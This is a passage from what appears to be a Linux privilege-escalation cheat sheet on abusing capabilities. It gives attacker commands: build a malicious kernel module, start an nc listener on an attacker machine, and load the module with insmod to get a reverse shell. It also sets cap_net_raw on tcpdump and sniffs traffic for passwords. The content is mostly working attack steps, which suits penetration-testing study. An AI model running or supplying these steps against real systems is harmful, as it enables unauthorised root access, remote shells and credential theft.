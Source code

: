 ```bash
make
```

- In your Attacker Machine
```bash
nc -nlvp 443
```

- it will load the malicious kernel module, and gives us reverse shell
```bash
insmod reverse-shell.ko #Launch the reverse shell
```

## cap_net_raw

#### Miscofiguring

```bash
setcap cap_net_raw+ep /usr/sbin/tcpdump
```

#### Exploiting

- Although can't escalate, But in some case Maybe we can sniff the password
```bash
tcpdump -n tcp
```

## Reference


https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

https://tbhaxor.com/series/

https://www.armourinfosec.com/

https://chatgpt.com/

https://redfoxsec.com/blog/exploiting-linux-capabilities-capsysmodule-exploits/
